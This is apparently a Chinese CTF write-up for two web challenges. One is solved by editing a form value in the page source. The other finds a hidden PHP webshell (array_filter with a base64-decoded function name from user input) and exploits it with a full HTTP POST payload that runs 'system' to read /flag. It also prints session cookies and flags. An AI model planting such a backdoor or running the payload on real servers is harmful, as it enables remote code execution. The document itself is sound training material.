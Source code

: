 # WP
## Web 1 ezGetFlag
### 操作内容
出现页面，带个按钮，点一下试试。
提示需要再点 9 下，那就点吧。
![[Pasted image 20241124180914.png]]

![[Pasted image 20241124181032.png]]
提示将 POST 改成 GET。

但是这里并不是改成 POST 传参，F12 查看源码，发现：
![[Pasted image 20241124181227.png]]

根据 ID，找到对应的标签:
![[Pasted image 20241124181306.png]]

将 `value` 改成 `POST` 即可获得 flag。
### flag
flag{dd4d2086-47fe-4b51-8505-1ead5fc89182}
## Web 2 ezFindShell
### 操作内容
"Separate the wheat from the chaff"  --  “去其糟粕，取其精华”

下载题目给的 `www.zip`，发现里面是一大堆 `.php` 文件。
![[Pasted image 20241124181849.png]]

题目提示是要找 shell，那么最常见的可供用户控制的输入，在 PHP 中，就是 `$_GET $_REQUEST $_POST`。

使用 VSC 的全局搜索功能，发现在 `1de9d9a55a824f4f8b6f37af76596baa.php` 文件中找到了 `$_REQUEST`。

关键代码：
```php
$e=$_REQUEST['e'];
$arr=array($_POST['POST'],);
array_filter($arr,base64_decode($e));
```

拿到 GET 或者 POST 传参中的参数名为 `e` 的参数，再拿到 POST 传参中的参数名为 `POST` 的参数，并将其转化为数组。接下来再对 `e` 这个函数名进行 `base64` 解码。再将 `$arr` 中的值一一放到解码后的函数中跑一遍。

那么就存在代码执行漏洞。令 `e` 为 `base64` 编码后的 `system`，将 `POST` 设为我们想要的命令。

payload:
```http
POST /1de9d9a55a824f4f8b6f37af76596baa.php?e=c3lzdGVt HTTP/1.1
Host: eci-2zefwo35pdxrsn1z5nx7.cloudeci1.ichunqiu.com
Content-Length: 16
Cache-Control: max-age=0
Origin: http://eci-2zefwo35pdxrsn1z5nx7.cloudeci1.ichunqiu.com
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Linux; Android 6.0; Nexus 5 Build/MRA58N) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Mobile Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://eci-2zefwo35pdxrsn1z5nx7.cloudeci1.ichunqiu.com/1de9d9a55a824f4f8b6f37af76596baa.php?e=c3lzdGVt
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: chkphone=acWxNpxhQpDiAchhNuSnEqyiQuDIO0O0O; Hm_lvt_2d0601bd28de7d49818249cf35d95943=1732284697,1732358658,1732371363,1732411058; Hm_lpvt_2d0601bd28de7d49818249cf35d95943=1732411058; HMACCOUNT=D12E601BF2C7495A; _tea_utm_cache_10000007=undefined
Connection: keep-alive

POST=cat+%2Fflag
```
### flag
flag{f882df82-381d-4e07-8579-585934f4519e}
